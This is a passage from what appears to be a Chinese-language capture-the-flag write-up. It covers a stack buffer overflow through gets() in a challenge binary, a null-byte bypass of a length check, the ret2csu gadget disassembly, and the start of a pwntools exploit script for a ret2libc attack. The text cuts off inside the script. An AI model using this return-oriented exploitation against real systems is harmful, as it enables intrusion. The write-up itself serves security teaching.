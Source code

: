 ```plain
size_t vuln()
{
  size_t result; // rax
  char s[16]; // [rsp+0h] [rbp-10h] BYREF

  write(1, "This challenge no backdoor!", 0x1BuLL);
  gets(s);
  result = strlen(s);
  if ( result > 0x10 )
  {
    write(1, "may you can pass it right?", 0x1AuLL);
    exit(1);
  }
  return result;
}
```

非常直白的一道题，只有一个strlen对我们的垃圾数据做了检测，只要用\\x00绕过即可

那么我们的思路就是利用ret2csu调用write函数来泄露真实地址，进而进行ret2libc的过程

csu函数

```plain
.text:0000000000401310                               loc_401310:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000401310 4C 89 F2                      mov     rdx, r14
.text:0000000000401313 4C 89 EE                      mov     rsi, r13
.text:0000000000401316 44 89 E7                      mov     edi, r12d
.text:0000000000401319 41 FF 14 DF                   call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:0000000000401319
.text:000000000040131D 48 83 C3 01                   add     rbx, 1
.text:0000000000401321 48 39 DD                      cmp     rbp, rbx
.text:0000000000401324 75 EA                         jnz     short loc_401310
.text:0000000000401324
.text:0000000000401326
.text:0000000000401326                               loc_401326:                             ; CODE XREF: __libc_csu_init+35↑j
.text:0000000000401326 48 83 C4 08                   add     rsp, 8
.text:000000000040132A 5B                            pop     rbx
.text:000000000040132B 5D                            pop     rbp
.text:000000000040132C 41 5C                         pop     r12
.text:000000000040132E 41 5D                         pop     r13
.text:0000000000401330 41 5E                         pop     r14
.text:0000000000401332 41 5F                         pop     r15
.text:0000000000401334 C3                            retn
```

脚本如下:

```plain
from pwn import *
from LibcSearcher import *

context.log_level = "debug"
#io = remote('pwn.node.game.sycsec.com', 30385)
io = process('./chal')
elf = ELF('./chal')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#libc = ELF('./libc.so.6')
csu_end_addr=0x40132A
csu_front_addr=0x401310
def csu(rbx, rbp, r12, r15, r14, r13, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
```